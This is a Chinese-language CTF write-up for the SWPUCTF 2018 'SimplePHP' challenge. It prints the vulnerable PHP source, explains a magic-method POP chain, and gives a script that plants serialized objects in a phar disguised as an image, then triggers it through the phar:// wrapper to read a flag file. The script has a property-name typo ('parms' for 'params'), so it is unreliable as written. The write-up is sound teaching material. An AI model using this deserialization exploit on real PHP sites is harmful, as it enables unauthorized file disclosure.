

SWPUCTF_2018_SimplePHP
[SWPUCTF 2018]SimplePHP
任意文件包含？
大概有这几个文件。可以读取file.php，function.php，class.php，base.php文件的源码

file.php
<?php
header("content-type:text/html;charset=utf-8");
include 'function.php';
include 'class.php';
ini_set('open_basedir','/var/www/html/');
$file = $_GET["file"] ? $_GET['file'] : "";
if(empty($file)) {
echo "<h2>There is no file to show!<h2/>";
}
$show = new Show();
if(file_exists($file)) {
$show->source = $file;
$show->_show();
// 这里传的 $file 到 class.php文件中去形成文件读取了
} else if (!empty($file)){
die('file doesn\'t exists.');
}
?>
function.php
- 文件
<?php
//show_source(__FILE__);
include "base.php";
header("Content-type: text/html;charset=utf-8");
error_reporting(0);
function upload_file_do() {
global $_FILES;
$filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg";
//mkdir("upload",0777);
if(file_exists("upload/" . $filename)) {
unlink($filename);
}
move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename);
echo '<script type="text/javascript">alert("上传成功!");</script>';
}
function upload_file() {
global $_FILES;
if(upload_file_check()) {
upload_file_do();
}
}
function upload_file_check() {
global $_FILES;
$allowed_types = array("gif","jpeg","jpg","png");
$temp = explode(".",$_FILES["file"]["name"]);
$extension = end($temp);
if(empty($extension)) {
//echo "<h4>请选择上传的文件:" . "<h4/>";
}
else{
if(in_array($extension,$allowed_types)) {
return true;
}
else {
echo '<script type="text/javascript">alert("Invalid file!");</script>';
return false;
}
}
}
?>
base.php
- 前端展示
<?php
session_start();
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>web3</title>
<link rel="stylesheet" href="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/css/bootstrap.min.css">
<script src="https://cdn.staticfile.org/jquery/2.1.1/jquery.min.js"></script>
<script src="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>
<body>
<nav class="navbar navbar-default" role="navigation">
<div class="container-fluid">
<div class="navbar-header">
<a class="navbar-brand" href="index.php">首页</a>
</div>
<ul class="nav navbar-nav navbra-toggle">
<li class="active"><a href="file.php?file=">查看文件</a></li>
<li><a href="upload_file.php">上传文件</a></li>
</ul>
<ul class="nav navbar-nav navbar-right">
<li><a href="index.php"><span class="glyphicon glyphicon-user"></span><?php echo $_SERVER['REMOTE_ADDR'];?></a></li>
</ul>
</div>
</nav>
</body>
</html>
<!--flag is in f1ag.php-->
class.php
- 魔法方法出现最多的一个php文件
<?php
class C1e4r
{
public $test;
public $str;
public function __construct($name)
{
$this->str = $name;
}
public function __destruct()
{
$this->test = $this->str;
echo $this->test;
}
}
class Show
{
public $source;
public $str;
public function __construct($file)
{
$this->source = $file;
echo $this->source;
}
public function __toString()
{
$content = $this->str['str']->source;
return $content;
}
public function __set($key,$value)
{
$this->$key = $value;
}
public function _show()
{
if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
die('hacker!');
} else {
highlight_file($this->source);
}
}
public function __wakeup()
{
if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
echo "hacker~";
$this->source = "index.php";
}
}
}
class Test
{
public $file;
public $params;
public function __construct()
{
$this->params = array();
}
public function __get($key) // 传入点
{
return $this->get($key);
}
public function get($key)
{
if(isset($this->params[$key])) {
$value = $this->params[$key];
} else {
$value = "index.php";
}
return $this->file_get($value);
}
public function file_get($value)
{
$text = base64_encode(file_get_contents($value)); // 任意文件读取点
return $text;
}
}
?>
-
调用
Test类中的file_get()方法任意文件读取，get()会调用file_get()方法，传入$value参数，if判断$this->params[$key]是否有值，没有则传index.php给file_get去读取。但是前面还有一个构造函数__contruct()，定义params为一个数组，__get则去调用get()方法，所以只要触发__get()方法即可～ ，__get()魔术方法在读取不存在的属性自动触发！Test::__construct() Test::__get() --> get() --> file_get().file_get_contents() // 读取文件 -
Show类中的__toString()中的$content = $this->str['str']->source则是获取一个叫source的属性。假设str['str'] = new Test()读取不存在的属性source刚好就能触发__get()方法！ -
__toString()把对象当成字符输出自动触发～，在C1e4r中__destruct()对象被销毁触发，能打印输出值，只要设置$this->test为new show()对象即可，
# 构造
C1e4r::__destruct --> Show::toString() --> Test::__get() -->get()-->file_get_contents()
POP：
<?php
class C1e4r
{
public $test;
public $str;
}
class Show
{
public $source;
public $str;
}
class Test
{
public $file;
public $params;
}
$c = new C1e4r();
$show = new Show();
$test = new Test();
$test->parms['source']="/var/www/html/f1ag.php";
// 为什么设置'source'? 因为: $this->str['str']->source;
$c->str = $show;
$show->str['str']=$test;
$phar=new Phar("mm.phar");
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$phar->setMetadata($c);
$phar->addFromString("test.txt", "test"); // 生成签名
$phar->stopBuffering();
function.php限制上传的文件后缀，但是到最后都会被命名为xxxxxx.jpg文件。mm.phar改成png结尾，
上传文件，然后利用phar伪协议http://xxxxx/file.php?file=phar://upload/xxxx.jpg